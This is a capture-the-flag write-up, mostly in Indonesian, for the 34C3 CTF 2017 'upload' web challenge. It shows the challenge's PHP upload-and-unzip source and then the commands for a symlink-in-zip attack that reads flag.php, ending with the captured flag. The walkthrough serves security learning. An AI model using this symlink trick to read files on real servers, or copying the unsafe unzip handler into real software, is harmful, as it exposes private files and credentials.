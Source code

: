 # 34C3 CTF 2017: JuniorCTF - upload

**Category:** Web
**Description:**

> This is an useful [service](http://35.197.205.153/) to unzip some files.
> We added a [flag](http://35.197.205.153/flag.php) for your convenience.

## Write-up

Pada challenge ini kita diberikan sebuah web dengan fitur upload dan kita diberikan akses ke [source code web](http://35.197.205.153/?source=1)
```php
 <?php
$UPLOADS = '/var/www/uploads/';
if(!empty($_FILES['uploaded_file'])) {
    $paths = scandir($UPLOADS);
    $now = time();
    foreach($paths as $path) {
        if ($path == '.') {
            continue;
        }
        $mtime = filemtime($UPLOADS . $path);
        if ($now - $mtime > 120) {
            shell_exec('rm -rf ' . $UPLOADS . $path);
        }
    }
    $path = $UPLOADS . uniqid('upl') . '/';
    if(!mkdir($path, 0777, true)) {
        die('mkdir failed');
    }
    $zip = $path . uniqid('zip');
    if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $zip)) {
        shell_exec('unzip -j -n ' . $zip . ' -d ' . $path);
        unlink($zip);
        header('Location: uploads/'. basename($path) . '/');
    } else {
        echo 'There was an error uploading the file, please try again!';
    }
} else {
?>
<!DOCTYPE html>
<html>
<head>
    <title>Upload your files</title>
</head>
<body>
<?php
    if (@$_GET['source']) {
        highlight_file(__FILE__);
    } else {
?>
    <form enctype="multipart/form-data" method="POST">
        <p>Upload your file</p>
        <input type="file" name="uploaded_file"></input><br />
        <input type="submit"></input>
    </form>
    <a href="?source=1">Show source</a>
</body>
</html>
<?php
    }
}
?> 
```

Ketika kita mengupload sebuah file zip maka akan unzip pada server dan file hasil extract akan dipindahkan ke `http://url/uploads/upl+uniqid`

![Screenshot](test.png)

File flag berada pada `http://url/flag.php`

Pada soal ini kita tidak memanfaatkan kelemahan dari php, namun kita akan memanfaatkan kehebatan dari `Symbolic Link` pada Linux

perintah dasarnya seperti ini
```bash
$ ln -s /path/to/file /path/to/symlink
```

Arahkan symlink ke flag.php yang letaknya berada pada `http://url/flag.php` sedengkan file kita berada pada `http://url/uploads/upl+uniqid`, sehingga kita harus naik 2 directory

```bash
$ ln -s ../../flag.php sebuah_file
```

lalu compress `sebuah_file` dengan nama `final.zip`

```bash
$ zip -y final.zip sebuah_file
```

Upload `final.zip` ke server

![Screenshot2](test2.png)

klik pada `sebuah_file` dan lihat isinya atau copy link lalu gunakan curl

```bash
$ curl http://35.197.205.153/uploads/upl5a4907d85d7e1/sebuah_file
<?php
$flag = "34C3_unpack_th3_M1ss1ng_l!nk"
?>
```

## References

* [stackoverflow](https://stackoverflow.com/questions/1951742/how-to-symlink-a-file-in-linux)